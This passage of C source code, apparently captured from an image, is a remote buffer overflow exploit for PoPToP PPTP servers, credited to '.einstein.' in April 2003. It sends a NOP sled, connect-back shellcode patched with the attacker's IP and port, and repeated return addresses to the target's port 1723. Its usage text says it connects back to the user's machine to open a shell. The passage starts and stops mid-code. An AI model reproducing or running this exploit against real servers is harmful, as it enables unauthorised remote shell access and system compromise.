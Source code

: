       for (i = 0; i < NOP_LENGTH; i++) ping.buf[i] = '\x90';

      *(unsigned long int*)(shellcode+33) = inet_addr(hostname);
      *(unsigned short int*)(shellcode+39) = htons(port);

      memcpy(ping.buf+NOP_LENGTH,shellcode,sizeof(shellcode));
      for(i = RET_OFF; i < buflen - 4; i+=4)
        memcpy(ping.buf+i,(char*)&ret,4);

      send(st,(char*)&ping,sizeof(ping.header)+buflen,0);
    }

    int connect_server(char* hostname)
    {
      struct sockaddr_in addr;
      st=socket(PF_INET,SOCK_STREAM,0);
      if ((st=socket(PF_INET,SOCK_STREAM,0)) == -1) return 0;

      addr.sin_family=AF_INET;
      addr.sin_port=0;
      addr.sin_addr.s_addr=0;
      bind(st, (struct sockaddr *)&addr,sizeof(struct sockaddr));

      addr.sin_family=AF_INET;
      addr.sin_port=htons(1723);
      addr.sin_addr.s_addr=inet_addr(hostname);
      printf("connecting... ");
      if ((connect(st,(struct sockaddr*)&addr,sizeof(addr))) != 0)
      {
        perror("connect");
        return 0;
      }
      return 1;
    }

    int main(int argc, char** argv)
    {
      struct pptp_reply reply;
      // rushing things only makes it worse
      int timeout = 1000;
      u_int32_t ret;
      int bytes, j, checked = 0;
      signal(SIGPIPE, catch_pipe);
      printf("\n");
      // Sorry, I failed REALLY FUCKING LAME ASCII ART class
      printf("        D     A     SSSSS                           \n");
      printf("        D    A A    S     SSSSS     T\n");
      printf("        D   A   A   S     S         T     EE    AA   M   M \n");
      printf("    DDD D  AAAAAAA  SSSSS S         T    E  E  A  A  MM MM \n");
      printf("   D   DD  A     A      S SSSSS    TTTT  E  E  A  A  MM MM \n");
      printf("  D     D  A     A      S     S     T    EEE   AAAA  M M M \n");
      printf("   D    D  A     A  SSSSS     S     T    E     A  A  M   M \n");
      printf("    DDDD   A     A        SSSSS      TTT  EEE  A  A  M   M   ");
      printf(" ... presents ... \n\n");
      printf("Exploit for PoPToP PPTP server older than\n1.1.4-b3 and 1.1.3-20030409 under Linux.\n");
      printf("by .einstein., April 2003.  <-- the genius\n\n");
      printf("fixed by ./r4nc0rwh0r3 of blightninjas  blightninjas@hushmail.com\n\n");
      if (argc < 2)
      {
        printf("usage: \n");
        printf("  %s <pptp_server> [your_ip] [your_port] ...\n",argv[0]);
        printf("   -b [timeout in ms]\n");
        printf("   -t [target]\n");
        printf("   -r [ret address]\n");
        //Abridged edition
        printf(" Only supply pptp_server to test exploitability using really poor method.\n");
        printf(" Connect back to your_ip at your_port.\n\n");